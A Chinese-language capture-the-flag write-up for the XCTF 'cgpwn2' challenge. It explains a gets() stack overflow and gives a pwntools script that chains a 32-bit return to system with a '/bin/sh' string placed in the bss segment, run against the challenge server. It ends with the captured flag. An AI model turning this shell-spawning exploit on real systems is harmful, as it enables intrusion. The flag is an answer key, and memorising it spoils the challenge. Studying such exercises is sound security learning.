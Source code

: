 # cgpwn2

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=bc7fa74a-09f7-4a5d-b243-f833888a5cef_2&task_category_id=2)

几周没做pwn就连32位rop链都忘了ಠ_ಠ。来复习一下。

![main](../../images/cgpwn_main.png)

-   Arch:     i386-32-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x8048000)

还是普通的栈溢出，但有了一点小小的变化（其实是更简单了）。就开了个NX，上rop。第33行有个gets，将我们输入的内容存入local_2a,除了栈溢出还能有啥？但这道题的31行与其他的不同，将我们输入的name放到了bss段。正经人谁把name放bss段啊，这不是明摆着给我们利用吗？

我本来想ret2libc，还费尽心思打印了puts的地址，但发现打印结果不对劲。想在ghidra看看怎么回事，结果发现已经有现成的system了（所以说pwn前要仔细看啊）。行吧，给了system哪有不用的道理。/bin/sh可以直接从刚刚输入的bss段拿。

```python
from pwn import *
p=remote("61.147.171.105",60164)
system_plt=134513696
sh_addr=0x0804a080
payload=b'a'*0x2a + p32(system_plt)+b'a'*4+p32(sh_addr)
p.sendlineafter("please tell me your name",'/bin/sh')
p.sendlineafter("hello,you can leave some message here:",payload)
p.interactive()
```

复习一遍这个rop链。b'a'\*0x2a + p32(system_plt)+b'a'\*4+p32(sh_addr)等于0x2a个垃圾数据（跟要溢出变量距离ebp的长度有关）+要跳转的地址+跳转后的返回地址（此处system直接拿到shell了所以返回去哪不重要，乱填也没事，后面崩了管我们啥事）+调用函数的参数。

- ### Flag
  > cyberpeace{931db72919c14c2194e62d458d35ea9c}